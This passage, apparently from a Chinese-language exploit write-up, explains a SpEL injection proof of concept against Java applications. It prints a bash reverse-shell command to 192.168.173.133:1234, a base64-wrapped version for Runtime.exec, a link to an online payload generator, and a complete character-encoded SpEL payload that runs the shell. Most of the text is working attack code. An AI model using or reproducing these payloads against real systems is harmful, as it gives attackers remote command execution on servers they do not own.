 
![](https://gitee.com/fuli009/images/raw/master/public/20210903083029.png)image-20210829191932279

可以看出该poc对输入的命令进行了变形，将命令的每个字符串转化为ASCII码配合tostring()方法并且用concat拼接传入exec执行。

反弹shell：

对于poc需要先进行base64编码(java反弹shell都需要先编码，不然不会成功，原因貌似是runtime不支持管道符,重定向，空格，管道符都有可能造成错误，具体可以参考这篇文章：https://blog.th3wind.xyz/posts/238052750.html）

在线生成有效载荷的网站：http://www.jackson-t.ca/runtime-exec-payloads.html

    
    
    bash -i >& /dev/tcp/192.168.173.133/1234 0>&1  
      
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083030.png)image-20210829191700097

生成poc

    
    
    ${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(80)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}  
      